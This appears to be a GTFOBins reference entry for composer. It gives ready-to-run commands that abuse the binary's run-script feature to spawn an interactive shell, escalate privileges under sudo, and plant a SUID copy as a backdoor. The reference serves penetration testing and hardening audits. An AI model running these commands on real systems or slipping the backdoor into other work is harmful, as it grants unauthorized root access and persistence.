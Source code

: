 # GTFOBin: composer

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
composer --working-dir=$TF run-script x
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which composer) .

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
./composer --working-dir=$TF run-script x
```